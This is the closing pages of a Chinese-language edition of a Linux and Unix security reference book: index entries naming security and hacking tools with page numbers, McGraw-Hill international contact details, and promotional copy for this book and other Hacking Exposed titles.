    - GNU Privacy Guard，73
    - 黑客工具，RC 15–RC 17
    - Hping2，181
    - Hydra 暴力破解工具，58
    - John the Ripper，109–110
    - Keyebble VNC 查看器，183
    - Kismet，178
    - Kismet 无线黑客工具，173
    - Knark rootkit，127
    - LACNIC (拉丁美洲和加勒比海互联网地址注册机构)，12
    - 本地缓冲区溢出，116
    - Loki2 工具，126
    - LRK (Linux Rootkit)，127
    - SSH 的中间人攻击，68
    - MySQL 强化，95, 97
    - NASL 参考手册，166
    - Nessus，102, 162
    - Netcat，54–56
    - Nmap 实用程序，22
    - npasswd，59
    - npasswd 实用程序，110
    - OpenSSH，181
    - OpenSSL，93–94
    - Linux 和 Unix 的补丁，155
    - PHPNuke 漏洞，82
    - ProFTPD，67
    - Openmapfe，179–180
    - RFC 768 (UDP 报头)，RC 14
    - RFC 791 (IP 报头)，RC 12
    - RFC 793 (TCP 报头)，RC 13
    - RIPE NCC (欧洲 IP 网络协调中心)，12
    - RPC 软件漏洞，88
    - runlpr 实用程序，116
    - Samhain，127
    - 安全会议，RC 19
    - 安全邮件列表，其网页地址，RC 19
    - 安全资源，RC 15
    - Sendmail，73
    - Zaurus PDA 的 Smbmount 工具，183
    - 软件漏洞和缓冲区溢出，61
    - 与 VNC 流量结合使用的 SSH，99
    - Sudo，151
    - TCP Wrappers，133
    - tcpdump 和恶意 NFS 数据包，103
    - Zaurus PDA 的 tcpdump，184
    - Tornkit rootkit，127
    - Tripwire，127
    - 关于管理缺陷的 Usenet 存档，8
    - 虚拟机软件，62
    - VNC 服务器，182
    - vncrack 工具，97
    - 无线天线，171
    - WU-FTPD，135
    - xkey 工具，102
    - Xprobe2，32–34
    - xremote 工具，102
    - xscan 程序，101
    - xwatch 工具，101
    - zap3 工具，121
    - Zaurus PDA，185
    - Nmap 的 Zaurus 移植版，179
    - Zebedee 命令行工具，107–109
    - 用于 Zaurus PDA 的 ZEthereal，184
    - 用于 Zaurus PDA 的 zNessus，184–185
    - webspy 程序，其特性，78
    - Wellenreiter II，在 Zaurus PDA 上的使用，179
    - WEP (有线等效保密) 协议，概述，170–171
    - Wget，在 Zaurus PDA 上的使用，184

## Z

- wheel 组，通过其限制对 setuid 程序的访问，150
- whois 查询，其漏洞，9
- 窗口扫描，使用 Nmap 执行，31
- 天线的无线黑客攻击，其出现，171
- 无线黑客工具
    - Airsnort，172
    - Fata-Jack，173–174
    - Kismet，173
- 无线网络
    - 安全加固，174–175
    - 其漏洞，170
- 全球可读文件
    - 审计，145
    - 查找，113–114
- 全球可写文件，搜索，113–114, 146
- WU-FTPD
    - 强化，135–136
    - 其漏洞，66–67
- xremote 工具，下载，102
- xscan 命令，与 X 服务器结合使用，101
- xterm，通过其获取远程 shell，107
- xwatchwin 工具，下载，101
- zap3 工具，使用其清理，121
- Zaurus PDA (个人数字助理)
    - 与 Bing 结合使用，180
    - 与 dig 工具结合使用，185
    - 其特性，178
    - 与 Hping2 结合使用，181
    - 与 Keypebble VNC 查看器结合使用，183
    - 与 Kismet 结合使用，178
    - 与 MTR (Matt's TraceRoute) 结合使用，185
    - 与 Nmap 结合使用，179
    - 其在线资源，185
    - 与 OpenSSH 结合使用，180–181
    - Perl，185
    - 与 Openmapfe 结合使用，179–180
    - 与 Smbenumer 结合使用，183
    - 与 tcpdump 结合使用，183–184
    - 与 VNC 服务器结合使用，182
    - 与 Wellenreiter II 结合使用，179
    - 与 Wget 结合使用，184
    - 与 ZEthereal 结合使用，184
    - 与 zNessus 结合使用，184
- ZEthereal，与 Zaurus PDA 结合使用，184
- Zebedia 命令行工具，执行端口重定向，107–109
- zNessus，与 Zaurus PDA 结合使用，184–185
- 区域传输
    - 使用 host 命令执行，16–18
    - 防止滥用，18
    - 使用，16–18

## X

- x (执行) 权限，示例，144
- X 服务器
    - 利用配置错误，100–102
    - 阻塞与隧道，102
- TCP 端口 6000–6063 上的 X 窗口系统，其漏洞，100–102
- xinetd
    - 以及 inetd 强化，134–135
    - 作为远程 shell 使用，122–123
- xkey 工具，下载，102
- XMAS 扫描，使用 Nmap 执行，28
- XOR 真值表，结合掩码值使用，146–147
- Xprobe2，使用其进行操作系统指纹识别，32–34

## 国际联系信息

| 地区 | 联系信息 |
| :--- | :--- |
| **澳大利亚** | McGraw-Hill Book Company Australia Pty. Ltd.<br>TEL +61-2-9900-1800<br>FAX +61-2-9878-8881<br>http://www.mcgraw-hill.com.au<br>books-it_sydney@mcgraw-hill.com |
| **南非** | McGraw-Hill South Africa<br>TEL +27-11-622-7512<br>FAX +27-11-622-9045<br>robyn_swanepool@mcgraw-hill.com |
| **西班牙** | McGraw-Hill/Interamericana de España, S.A.U.<br>TEL +34-91-180-3000<br>FAX +34-91-372-8513<br>http://www.mcgraw-hill.es<br>professional@mcgraw-hill.es |
| **加拿大** | McGraw-Hill Ryerson Ltd.<br>TEL +905-430-5000<br>FAX +905-430-5020<br>http://www.mcgraw-hill.ca |
| **希腊、中东及非洲 (不含南非)** | McGraw-Hill Hellas<br>TEL +30-210-6560-990<br>TEL +30-210-6560-993<br>TEL +30-210-6560-994<br>FAX +30-210-6545-525 |
| **英国、北欧、东欧及中欧** | McGraw-Hill Education Europe<br>TEL +44-1-628-502500<br>FAX +44-1-628-770224<br>http://www.mcgraw-hill.co.uk<br>computing_europe@mcgraw-hill.com |
| **墨西哥 (同时服务于拉丁美洲)** | McGraw-Hill Interamericana Editores S.A. de C.V.<br>TEL +525-117-1583<br>FAX +525-117-1589<br>http://www.mcgraw-hill.com.mx<br>fernando_castellanos@mcgraw-hill.com |
| **所有其他查询** | McGraw-Hill/Osborne<br>TEL +1-510-420-7700<br>FAX +1-510-420-7703<br>http://www.osborne.com<br>ormg_international@mcgraw-hill.com |
| **新加坡 (服务于亚洲)** | McGraw-Hill Book Company<br>TEL +65-6862-3354<br>FAX +65-6862-3354<br>http://www.mcgraw-hill.com.sg<br>mghasia@mcgraw-hill.com |

## 确保您的 J2EE 应用程序安全

### 使用经过验证的 Hacking Exposed 方法论

全面掌握用于识别和修复 J2EE 及 Java 安全问题的工具和技术。本书采用与国际畅销书 *Hacking Exposed* 同样令人兴奋且信息丰富的风格编写，包含了 J2EE 攻击与反制措施的示例、风险评级以及深刻的案例研究。

**Hacking Exposed™ J2EE**
作者：Art Taylor, Brian Buege, 和 Randy Layman
ISBN: 0072225863

McGraw-Hill/Osborne 的产品在全世界销售高质量计算机书籍的所有地方均有供应。

## 查看 Osborne 的所有黑客书籍

**Hacking Exposed J2EE & Java**
A. TAYLOR, B. BUEGE, R. LAYMAN
0-07-222565-3
49.99 美元

- 解释如何对使用以下技术的应用程序应用有效的安全反制措施：Servlets 和 Java Server Pages (JSPs)、Enterprise Java Beans (EJBs)、Web Services、Applets、Java Web Start、远程方法调用 (RMI)、Java 消息服务 (JMS)
- 展示攻击者如何识别 Web 应用程序组件中的潜在弱点
- 了解 Apache、IIS、Netscape Enterprise Server、J2EE、ASP.NET 等 Web 服务器平台中存在的毁灭性漏洞

**Hacking Exposed Windows 2000**
S. MCCLURE, J. SCAMBRAY
0-07-219262-3
49.99 美元

- 展示如何进行黑客攻击，同时提供关于如何堵住 Windows 2000 网络安全漏洞的具体解决方案

**Hacking Linux Exposed, 第二版**
B. HATCH, J. LEE
0-07-222564-5
49.99 美元

- 获取关于 Linux 特定黑客攻击（包括内部和外部）的详细信息，以及如何阻止它们


## Linux 与 Unix 安全
### 便携参考指南

《HackNotes Linux and Unix Security Portable Reference》为您详细地逐步介绍入侵战术、工具以及犯罪分子目前用于攻破计算机网络的实际技术。本书将教您如何保护并加固 Linux 和 Unix 主机，以应对最棘手的安全问题。利用书中间独特且易于访问的“参考中心”（Reference Center），您可以快速定位有用的命令、在线安全资源等更多内容！

- 探索反入侵战术，例如密码暴力破解、TCP劫持、中间人攻击等
- 学习使用最新的黑客工具，包括 Airsnort、Dsniff、Ettercap、Ethereal、Kismet、Netcat 和 Nmap
- 防御权限提升攻击
- 保护最流行的网络服务，包括 FTP、SSH、Telnet、SMTP、HTTP、HTTPS、R-Services、NFS、Samba、POP、IMAP、MySQL、X 和 VNC
- 识别高级入侵者使用的后门（Backdoor）和 Rootkit 工具及战术
- 学习深入且最新的 Linux 和 Unix 系统加固指南
- 防御软件漏洞，如竞态条件（race conditions）、不当的输入验证和配置错误
- 为流行的免费漏洞扫描工具 Nessus 编写自定义插件
- 了解最新的无线（802.11）黑客技术、工具和防御措施

**关于作者：** Nitesh Dhanjani 是 Foundstone, Inc. 的信息安全顾问。他是畅销安全书籍 *Hacking Exposed: Network Secrets and Solutions, Fourth Edition* 和 *HackNotes: Network Security Portable Reference* 的共同作者。他曾为多家财富 500 强客户进行网络和 Web 应用程序的攻击与渗透测试审查。

**关于系列主编：** Mike Horton 是 Foundstone, Inc. 的信息系统安全顾问，在企业、政府和计算机网络安全方面拥有十多年的综合经验。他是 HackNotes 系列的创建者、《Hack Notes: Network Security Portable Reference》的主作者，以及 Enigma Sever 安全研究中心 (www.enigmasever.com) 的创始人。

The McGraw-Hill Companies
McGraw Hill
OSBORNE
www.osborne.com

OSBORNE DELIVERS RESULTS!
NETWORKING / SECURITY
ISBN 0-07-222786-9
HACKNOTES LINUX UNIX SEC $29.99
